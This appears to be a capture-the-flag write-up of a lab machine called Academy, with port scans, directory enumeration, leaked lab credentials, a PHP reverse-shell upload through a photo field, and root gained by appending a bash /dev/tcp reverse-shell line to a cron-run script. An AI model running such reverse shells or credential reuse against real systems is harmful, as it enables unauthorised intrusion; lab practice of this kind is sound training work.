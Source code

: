 ```yaml
---
title: academy (PNPT)

date: "2023-12-22"

author: "MatDef"

---
```


# Description:
- NONE
# Information Gathering

## Enumeration

### nmap
Standard nmap scan of `192.168.111.11`: `nmap -T4 -p- -A $rhost`
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.111.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Ftp-anon login: Found note.exe
```sql
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
```
- Login Rum Ham: 10201321:student(MD5)
- Academy/sql admin: Grimmie (uses probably the same password in other services)

### gobuster
```shell
/academy              (Status: 301) [Size: 318] [--> http://192.168.111.11/academy/]
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.111.11/phpmyadmin/]
```
![profile-picture upload](images/academy_upload.png)

# Exploitation
Upload php-reverse-shell on the studentphoto-upload field and got Access
Found backup.sh which is also in crontab (runing every minute)

![](images/crontab.png)

###Linpeas:

![](images/mysql_password.png)
phpMyAdmin: grimmie:My_V3ryS3cur3_P4ss

-> SSH Access (same Password)

Modify backup.sh:
`echo "/bin/bash -i >& /dev/tcp/192.168.111.10/9002 0>&1" >> backup.sh`

Got Root-Shell
---

### References & Further Research
- [Another PrivEsc: Linux chfn (SuSE 9.3/10)?](https://www.exploit-db.com/exploits/1299)
- [unprivileged Linux process snooping](https://github.com/DominicBreuker/pspy)
